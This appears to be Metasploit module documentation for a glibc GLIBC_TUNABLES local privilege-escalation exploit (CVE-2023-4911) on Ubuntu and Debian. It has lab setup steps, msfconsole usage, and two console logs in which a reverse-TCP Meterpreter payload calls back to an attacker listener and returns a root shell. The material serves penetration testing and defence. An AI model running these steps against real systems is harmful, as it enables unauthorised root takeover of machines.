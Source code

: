 ## Vulnerable Application

A buffer overflow was exists in the GNU C Library's dynamic loader ld.so while processing the GLIBC_TUNABLES environment
variable. This issue allows an local attacker to use maliciously crafted GLIBC_TUNABLES environment variables when
launching binaries with SUID permission to execute code in the context of the root user. 

This module targets glibc packaged on Ubuntu and Debian. The specific versions this module targets are:

Ubuntu:
2.35-0ubuntu3.4 > 2.35
2.37-0ubuntu2.1 > 2.37
2.38-1ubuntu6 > 2.38

Debian: 
2.31-13-deb11u7 > 2.31
2.36-9-deb12u3 > 2.36

Fedora 37 and 38 and other distributions of linux also come packaged with versions of glibc vulnerable to CVE-2023-4911
however this module does not target them.  

### Description

The GLIBC_TUNABLES environment variable is parsed in a loop and is expected to be provided in the following format:
`tunable1=aaa:tunable2=bbb`. If the variable is sent in the following format: `tunable1=tunable2=AAA` due to the
absence of the tunable delimiter `:` in the string, the value `tunable2=AAA` is handled incorrectly and results in a
buffer overflow.

### Setup

Install [Ubuntu 22.04.3](https://releases.ubuntu.com/jammy/ubuntu-22.04.3-desktop-amd64.iso) while ensuring the VM does 
not have internet access. 

Once booted up, edit `/etc/apt/apt.conf.d/20auto-upgrades` and change `APT::Periodic::Unattended-Upgrade` from `1` to
`0` to ensure to ensure the machine doesn't patch itself.

Ensure that glibc is at version 2.35-0ubuntu3.1 by running the following:
```
msfuser@msfuser-virtual-machine:~$ ldd --version
ldd (Ubuntu GLIBC 2.35-0ubuntu3.1) 2.35
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```
The target should be exploitable.

## Verification Steps

1. Start `msfconsole`
2. Get a session
3. Do: `use exploit/linux/local/glibc_tunables_priv_esc`
4. Do: `set SESSION [SESSION]`
5. Do: `check`
6. Do: `run`
7. You should get a new *root* session

## Scenarios

### Ubuntu 22.04.3 with 2.35-0ubuntu3.1 installed (ARCH_X64)
```
msf exploit(linux/local/glibc_tunables_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/glibc_tunables_priv_esc) > set session -1
session => -1
msf exploit(linux/local/glibc_tunables_priv_esc) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf exploit(linux/local/glibc_tunables_priv_esc) > set lport 5555
lport => 5555
msf exploit(linux/local/glibc_tunables_priv_esc) > options

Module options (exploit/linux/local/glibc_tunables_priv_esc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION  -1               yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.1    yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto

msf exploit(linux/local/glibc_tunables_priv_esc) > run

View the full module info with the info, or info -d command.

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The glibc version (2.35-0ubuntu3.1) found on the target appears to be vulnerable
[+] The Build ID for ld.so: 61ef896a699bb1c2e4e231642b2e1688b2f1a61e is in the list of supported Build IDs for the exploit.
[+] The exploit is running. Please be patient. Receiving a session could take up to 10 minutes.
[*] Sending stage (3045380 bytes) to 192.168.123.228
[*] Meterpreter session 5 opened (192.168.123.1:5555 -> 192.168.123.228:33016) at 2023-12-19 10:53:09 -0500

meterpreter >getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.123.228
OS           : Ubuntu 22.04 (Linux 6.2.0-35-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >

```

### Debian 12 with 2.36-9-deb12u1 installed (ARCH_X64)
```
msf exploit(linux/local/glibc_tunables_priv_esc) > options

Module options (exploit/linux/local/glibc_tunables_priv_esc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  -1               yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.1    yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto



View the full module info with the info, or info -d command.

msf exploit(linux/local/glibc_tunables_priv_esc) > set lport 5555
lport => 5555
msf exploit(linux/local/glibc_tunables_priv_esc) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf exploit(linux/local/glibc_tunables_priv_esc) > run

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The glibc version (2.36-9+deb12u1) found on the target appears to be vulnerable
[+] The Build ID for ld.so: a99db3715218b641780b04323e4ae5953d68a927 is in the list of supported Build IDs for the exploit.
[+] The exploit is running. Please be patient. Receiving a session could take up to 10 minutes.
[*] Sending stage (3045380 bytes) to 192.168.123.229
[*] Meterpreter session 3 opened (192.168.123.1:5555 -> 192.168.123.229:50370) at 2023-12-19 12:21:34 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : debian.test.com
OS           : Debian 12.1 (Linux 6.1.0-10-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
